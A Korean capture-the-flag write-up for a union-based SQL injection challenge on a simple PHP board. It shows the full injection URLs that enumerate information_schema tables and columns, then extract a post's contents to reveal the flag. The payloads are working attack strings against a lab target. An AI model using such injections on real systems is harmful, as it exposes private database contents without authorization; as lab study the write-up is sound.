

# Dimi Simple Board 1

## Overview
게시물에 있는 플래그를 읽어보아요.  
UNION SQL INJECTION   
http://121.170.91.15/jtjjtjjtjjtjjtjj/

## Solution

아무런 소스도 주어지지 않지만 외부의 다른 많은 문제들과 유사하기 때문에 바로 union sql injection이라는 것을 알고 바로 공격을 실행했다

이 과정서 정말 이렇게 저렇게 해봤는데 다 안 됬었다.. 하지만 안 되는 이유는 그저 사용하고 있는 인터넷 환경이 좋지 않아 timeout이 걸린 것이었다.  

그래서 지금 이 writeup을 작성할 때는 그 때와는 다르게 좀더 효율적이고 깔끔하게(?) 만들었다

http://121.170.91.15/jtjjtjjtjjtjjtjj/read.php?idx=8%27union%20select%20table_type,%27%27,table_name,%27%27,%27%27%20from%20information_schema.tables%20where%20table_type%3C%3E%27SYSTEM%20VIEW%27%20limit%200,1%23

http://121.170.91.15/jtjjtjjtjjtjjtjj/read.php?idx=8%27union%20select%20table_type,%27%27,table_name,%27%27,%27%27%20from%20information_schema.tables%20where%20table_type%3C%3E%27SYSTEM%20VIEW%27%20limit%201,1%23

이를 통해 board라는 테이블과 comment라는 테이블이 있다는 것을 알 수 있었다

그리고 이제 Columns를 알아볼 차례이다

http://121.170.91.15/jtjjtjjtjjtjjtjj/read.php?idx=8%27union%20select%20column_name,table_name,%27%27,%27%27,%27%27%20from%20information_schema.columns%20where%20table_name=%27board%27%20limit%200,1%23

이런 형태로 다음과 같은 column이 board와 comment에 있다는 것을 알았다

board
- idx
- writer
- title
- contents
- password

comment
- idx
- page
- writer
- body
- read

이제 1번째 board 게시물을 읽기만 하면 된다!!

정말 간단하게 캐치해 보자

http://121.170.91.15/jtjjtjjtjjtjjtjj/read.php?idx=8%27union%20select%20%27%27,%27%27,title,contents,%27%27%20from%20board%20where%20idx=1%23

## flag

dimi{dimi_qna_sqlinjection}